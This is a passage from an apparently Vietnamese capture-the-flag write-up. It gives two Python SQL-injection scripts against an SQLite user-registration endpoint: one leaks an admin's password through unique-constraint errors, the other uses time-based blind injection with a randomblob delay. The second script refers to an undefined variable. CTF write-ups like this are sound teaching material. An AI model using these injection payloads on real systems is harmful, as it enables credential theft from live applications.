 Cách 2: Sử dụng query `case when`, nếu như đúng thì trả về sleep(2), còn sai thì trả về 1. Nhưng ở challenge này sử dụng sqlite nên không có hàm sleep và thay vào đó chúng ta sử dụng hàm `upper(hex(randomblob(100000000/2)))` (PayloadsAllTheThings :v)

### Payload
Cách 1: Payload này của teammate của mình chạy ra flag sau đó đưa cho mình. Lúc đầu mình cũng viết một payload với theo cách này nhưng có vẻ do mình không sài sv Singapor nên brute được 2 char là lại bị 502 nên mình khá nản.
```py
import requests

url ="http://phish.sg.ctf.so/add"
flag=""#we{e0df7105-Xcd-4dc6-8349-f3ef83643a9@h0P3_u_didnt_u3e_sq1m4P}
padding="huhuhu"

def create_user(i,padding):
    data = {
            "username":"a",
            "password":f"taidh',(select '{padding}'||substr(password,{i},1) from User where username='shou'))-- -"
            }
    r= requests.post(url,data=data,)
    print(r.text)
def brute(j,padding):
    data = {
            "username":padding+chr(j),
            "password":"a"
            }
    r= requests.post(url,data=data)
    return r
for i in range(1,70):
    print(padding)
    create_user(i,padding)
    for j in range(32,128):
        #print(chr(j))
        if chr(j)!="'":
            r=brute(j,padding)
            #print(r.text)
            if "UNIQUE constraint" in r.text:
                flag+=chr(j)
                padding+=chr(j)
                print(flag)
                break
```
Cách 2: Sử dụng `case when`
```py
import requests
import string

list_char = string.ascii_letters + string.digits + '{_-}@'
flag = '' #wectf{f7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P}
url = 'http://phish.sg.ctf.so/add'

for i in range(1,100):
    for char in list_char:
        temp = flag + char
        print(temp,end='\r')
        data = {'username': "'||hex(randomblob(10))||'",'password': f"'||(case ((select substr(password,1,{i}) from user where username='shou')='{temp}') when 1 then upper(hex(randomblob(100000000/2))) else 1 end)||'"}
        r = requests.post(url=url, data=data)
        if res.elapsed.total_seconds() > 1:
            flag += char
            print(flag)
```
